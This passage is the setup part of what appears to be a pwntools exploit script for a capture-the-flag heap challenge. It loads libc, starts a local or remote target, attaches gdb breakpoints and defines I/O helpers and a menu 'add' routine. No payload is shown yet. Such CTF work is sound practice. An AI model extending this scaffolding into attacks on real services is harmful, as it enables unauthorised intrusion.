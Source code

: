 ```python
  libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
else:
  if uselibc == 1 and haslibc == 0:
    libc = ELF('/lib/i386-linux-gnu/libc-2.27.so')
  else:
    libc = ELF('./libc.so.6')

if local == 1:
  if haslibc:
    elf = change_ld(pc, './ld.so')
    p = elf.process(env={'LD_PRELOAD':'./libc.so.6'})
    #p = process(pc,env={'LD_PRELOAD':'./libc.so.6'}) 
  else:
    p = process(pc)
elif local == 0:
  p = remote(remote_addr,remote_port)
  if haslibc:
    libc = ELF('./libc.so.6')

context.log_level = True

if local:
  if atta:
    #gdb.attach(p,'b *0x00000000001142F6 + 0x555555554000\n b*0x00000000001147D2 + 0x555555554000\n b*0x000000000011432B+0x555555554000')
    #gdb.attach(p,'b *0x00000000001147A3+0x555555554000\n b*0x00000000001147B5+0x555555554000')
    gdb.attach(p,'b *0x555555554000+0x1866\n b *0x555555554000+0x19da\n b *0x7ffff7de1000+0x117590')


def sla(a,b):
  p.sendlineafter(a,b)

def sa(a,b):
  p.sendafter(a,b)

def ru(a):
  return p.recvuntil(a)

def rl():
  return p.recvline()

def rv(a):
  return p.recv(a)

def sn(a):
  p.send(a)

def sl(a):
  p.sendline(a)

def lg(s,addr):
  print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def add(size,content,idx):
  sla(': ','1')
  if idx == 0:
    sla('Instrument: ','\xe7\x90\xb4')
  else:
    sla('Instrument: ','\xe7\x91\x9f')
  sla('Duration: ',str(size))
  sa('Score: ',content)

```